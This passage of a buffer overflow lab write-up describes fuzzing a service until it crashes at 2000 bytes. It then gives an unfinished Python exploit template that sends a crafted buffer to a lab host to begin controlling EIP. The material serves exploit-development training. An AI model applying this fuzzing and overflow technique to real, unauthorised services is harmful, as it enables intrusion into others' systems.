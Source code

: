 ### What does this script do?

* This fuzzer will send an increasingly long string of "A's"
* If the fuzzer is able to crash the program with that set of strings, the fuzzer will exit with an error message
* <mark style="color:yellow;">MAKE A NOTE OF THE LARGEST NUMBER OF BYTES THAT WERE SENT</mark>

### Running the script

<figure><img src="../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

* We get an error message that the <mark style="color:yellow;">fuzzing crashed at 2000 bytes</mark>

## Crash Replication and Controlling EIP

* Create a file on Kali called <mark style="color:yellow;">01exploit.py</mark> with the following contents:

```
import socket

ip = "10.10.253.98"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
```